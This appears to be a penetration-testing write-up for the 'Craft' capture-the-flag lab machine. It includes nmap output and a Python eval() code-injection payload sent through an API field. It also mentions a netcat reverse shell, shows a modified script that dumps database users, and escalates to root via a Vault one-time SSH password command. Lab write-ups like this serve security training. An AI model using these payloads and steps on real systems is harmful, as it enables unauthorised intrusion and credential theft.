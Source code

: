 Victim IP: 10.10.10.110
Victim OS: Linux

### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb

![homepage](https://github.com/zomy22/zomy22.github.io)

The “API” link points to api.craft.htb and the “Sign in” button to “gogs.craft.htb” therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
<api_craft>

### Enumeration - https://gogs.craft.htb
Repository housing the code and content for api.craft.htb.
Reviewing all commits and merge requests, dinesh’s credentials were accidentally commited and removed. There is also a test.py script ready to be used to connect to the api.
<dinesh_creds>

Reviewing more code in the repository and especially the functions for the POST and PUT API options  leads to finding a vulnerable python function “eval”. This function resides in the POST brew function in brew.py.
<test.py>

### Initial foothold - Exploiting python eval function
Test 1: On local system:
<screen_shot>

That works.
Test 2: with a similar “if” statement like in test.py:
<screen_shot>

That works too, however there is no result returned when it is tried on the victim end.

Test 3. Ping from victim to local machine:
	```
  tcpdump -i tun0 -nnv icmp
  ```
	Payload (test.py): 
	```
  brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' 
  ```

Try 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.
	The payload becomes: 
  <screen_shot>

It’s says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy :( 

Running “cat /etc/issue”, LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py

Modify the SQL in the try statement to select all users from the database
```try: 
    with connection.cursor() as cursor:
        sql = "SELECT * from user" # show tables. 
        cursor.execute(sql)
        result = cursor.fetchall() #change from fetchone to fetchall
        print(result)

finally:
    connection.close()
```
Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
<screen_shot>

Gilfoyle’s OTP setup:
<screen_shot>


Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
<screenshot>



Then SSH to the host using the generated key and the root user:
<screenshot>

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
